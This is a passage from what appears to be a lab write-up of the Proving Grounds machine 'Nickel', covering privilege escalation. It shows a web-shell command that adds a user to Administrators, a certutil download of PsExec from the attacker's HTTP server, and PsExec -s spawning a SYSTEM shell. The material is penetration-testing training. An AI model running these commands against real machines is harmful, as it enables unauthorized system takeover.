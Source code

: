 I then used Add-LocalGroupMember -Group Administartors -Member ariah to add our user to the Administrators group, to get this to work through the web shell I URL encoded it
~~~shell
http://localhost:8080/?Add-LocalGroupMember%20-Group%20Administrators%20-Member%20ariah
~~~
After restarting my SSH session the ariah user is now a member of the 'Administrators' group

![Nickel](/assets/img/NickelPG(10).png)

Finally, I transferred and used Windows [PsExec](https://download.sysinternals.com/files/PSTools.zip) to upgrade the ariah shell to a system (root) shell
~~~shell
┌──(kali㉿kali)-[~/Desktop/Nickel]
└─$ python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
~~~shell
ariah@NICKEL C:\Users\ariah\Desktop>certutil.exe -urlcache -split -f "http://192.168.45.167/PsExec64.exe"
****  Online  ****
  000000  ...
  0cb7c0
CertUtil: -URLCache command completed successfully.
~~~

Finally I executed PsExec using the [-s flag](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) to run the remote process as the system (root) account and the [-accepteula](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) flag to not show the license dialog (PsExec gets stuck otherwise) and got a root (system) shell!
~~~shell
ariah@NICKEL C:\Users\ariah\Desktop>PsExec64.exe -accepteula -s cmd.exe

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

                                                                                                                                                                              
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
~~~